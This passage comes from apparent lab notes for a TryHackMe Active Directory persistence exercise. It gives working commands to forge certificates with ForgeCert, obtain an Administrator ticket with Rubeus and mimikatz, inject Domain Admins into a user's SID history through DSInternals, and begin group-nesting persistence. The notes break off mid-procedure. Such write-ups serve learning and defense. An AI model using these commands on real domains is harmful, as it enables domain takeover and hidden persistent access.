 - Copied it to THMWRK1
- Now we can `ForgeCert`
```bash
C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath local_machine_My_1_za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```

- We can use `Rubeus.exe` to forge a TGT
```bash
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Password123  /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.61.101
```

- Then we can use `mimikatz` to load it
```bash
kerberos::ptt administrator.kirbi
```

- Got in
---------------------------------------------------------------------------------
- We can look at SIDs that our current user has
```bash
Get-ADUser carolyn.king -properties sidhistory,memberof
```

- We dont have anything
- Now we can find the SID of the domain admins group and add that in
```bash
Get-ADGroup "Domain Admins"

# S-1-5-21-3885271727-2693558621-2658995185-512
```

- Now we can login as DA to edit the SID history
- We will use `DSinternals` to edit it from `ntds.dit` itself
```bash
Stop-Service -Name ntds -force 
Add-ADDBSidHistory -SamAccountName 'carolyn.king' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath C:\Windows\NTDS\ntds.dit 
Start-Service -Name ntds
```

- Now we have the SID history of Domain Admins
- We can test it
```bash
dir \\thmdc.za.tryhackme.loc\c$ 
```

- Got in
---------------------------------------------------------------------------------
- We can use Group Nesting as persistence
- First we add a new group of IT
```bash
New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "crypt0ace Net Group 1" -SamAccountName "crypt0ace_nestgroup1" -DisplayName "crypt0ace Nest Group 1" -GroupScope Global -GroupCategory Security
```
